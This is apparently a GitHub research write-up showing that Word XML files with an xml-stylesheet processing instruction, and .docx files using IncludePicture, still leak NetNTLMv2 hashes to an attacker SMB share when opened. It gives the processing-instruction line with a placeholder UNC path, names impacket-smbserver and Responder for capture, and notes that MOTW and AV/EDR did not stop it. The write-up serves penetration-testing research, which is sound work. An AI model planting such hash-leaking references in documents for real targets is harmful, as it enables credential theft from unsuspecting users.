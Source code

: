 # NetNTLMv2-and-Office-Docs-Research

Was talking with some friends on discord, and the conversation started with a couple links and seeing whether some combo of these 2 would still work in 2023: https://blog.didierstevens.com/2017/11/13/webdav-traffic-to-malicious-sites/ and https://bohops.com/2018/08/04/capturing-netntlm-hashes-with-office-dot-xml-documents/. 

It turns out that it does! Creating a Word .XML file (in a similar way as the BoHops link above, File -> Save As -> `Word XML document (*.xml)`) still causes NetNTLMv2 hashes to be leaked upon opening the document, as long as you have the processing instruction `<?mso-application progid="Word.Document"?>` at the top to force the host to associate the file as a Word doc, and the "path" Word should expect to open the style sheet from within the href tag in the stylesheet processing instruction `<?xml-stylesheet type="text/xsl" href="\\ENDPOINT\HERE\word.xsl"?>`. Once the document is opened, no further interaction is needed, the document will automatically try to load the style sheet referenced in the href tag within the xml-stylesheet processing instruction at the top of your Word XML file, which in this case is an SMB endpoint set up using impacket-smbserver (Re-ran all the tests with Responder as well and hashes were picked up there as well). Sending the document via email (so it would gain MOTW), opening the document and hitting "Enable Editing..." button, hashes also successfully hit my smb endpoint.

![image](https://user-images.githubusercontent.com/75406207/230168107-15551eec-b135-4418-9fa6-1800401f0a8f.png)

Going a step further, we wanted to see whether it was possible to replicate some of this with .docx files, but if you've ever pulled apart a .docx file, it is a huge ~~mess~~ collection of xml files. This led me deep into the depths of documentation for OpenXML while simultaneously pulling .docx xml files apart, creating new documents with different styles/features/etc. to see whether I'd be able to get a word document zipped back up into it's original form and still open with the suspect `<xml-stylesheet>` call. 

With the .docx internals being a bit (read: a LOT) more finnicky when trying to inject the same payload idea into a couple of the xml files and "re-compile" them for lack of a better term, I went back to the drawing board to look into already established/"tried and true" methods of manipulating/poisoning office documents, and stumbled across this on HackTricks <https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology/phishing-documents#external-image-load>, which I had seen before, but not paid a whole lot of attention to.

Using that IncludePicture method and just populating the URL field with my smb endpoint, I was able get the same behavior as the .XML file tested previously, which was that the NetNTLMv2 hashes are successfully leaked upon opening the document. Then, I sent the same document via email (so it would gain MOTW), opened it and hit the "Enable Editing..." button, and a hash leaked successfully again. Nothing seemed to flag from an AV/EDR standpoint, 

![image](https://user-images.githubusercontent.com/75406207/230168191-1379ddaa-f07f-49de-a488-0931e6c8d577.png)

The tiny, highlighted box under "Test" in the document in the screenshot below is the "image" generated by using the IncludePicture function, shrunk considerably but large enough where it can still be seen when highlighting. 

Given this was a conversation started this morning, I haven't had the time to sit down and figure out how to expand and continue down this rabbit hole, but at a base level seems ripe for assumed breach/internal tests. Configuring .docx files with IncludePicture using the SMB share path is trivial and can easily be abused, however I have a feeling this is going to be more of an "intended functionality."  

I'll also note that the SMB "paths" configured were IPs, not FQDNs. If this ends up being a widely used attack vector and Microsoft attempts to resolve these vulnerabilities with an approach similar to how they "fixed" PrintNightmare, Follina, and most recently CVE-2023-23397, I'd expect this vector to be viable/bypasses to the patch(es) to be found quickly. 

This was really interesting to dig into initially, and I am planning to investigate more as time/life allows. I'm sure these attack vectors have been looked into in the past/this isn't anything new, but I enjoy learning something new and tinkering with stuff, so thought someone else might like to read about it as well. 

